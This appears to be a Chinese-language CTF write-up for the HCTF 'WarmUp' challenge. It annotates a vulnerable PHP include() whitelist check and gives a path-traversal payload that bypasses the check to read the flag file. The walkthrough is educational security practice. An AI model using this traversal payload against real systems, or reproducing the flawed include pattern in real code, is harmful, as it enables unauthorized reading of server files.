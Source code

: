 #WarmUp

通过查看页面源码可以看见source.php文件的提示
![htcf1](https://github.com/xiaocheng10/xiaocheng10.github.io/blob/master/image/hctf1.jpg)

通过构造/source.php获取源码，并又得到一个文件名hint.php，然后通过构造/hint.php获取一个页面，可见flag在ffffllllaaaagggg文件中
![hctf2](https://github.com/xiaocheng10/xiaocheng10.github.io/blob/master/image/hctf2.jpg)

然后审计代码
```
 <?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"]; #创建白名单
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            } #判断$page是否为空，若为不为空，则是false

            if (in_array($page, $whitelist)) {
                return true;
            } #查看白名单中是否有$page变量里的东西，有则是true

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            ); #截取问号前的字符串，给$_page
            if (in_array($_page, $whitelist)) {
                return true;
            }#查看白名单中是否有$_page变量里的东西，有则是true

            $_page = urldecode($page); #对$page进行url解码
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );#截取$_page中问好前的东西，在赋给$_page
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        } #查看白名单中是否有$_page变量里的东西，有则是true
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    )#判断输入变量是否为空，将其转换为字符串，调用类emmm的方法checkFile()方法是否返回true
 {
        include $_REQUEST['file']; #运行目录下的文件
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?> 
```
通过上面的代码审计，可以构造payload
```
?file=hint.php/../../../../ffffllllaaaagggg
```
最后得到
![hctf3](https://github.com/xiaocheng10/xiaocheng10.github.io/blob/master/image/hctf3.jpg)

注意：../是跳转到上级目录的意思
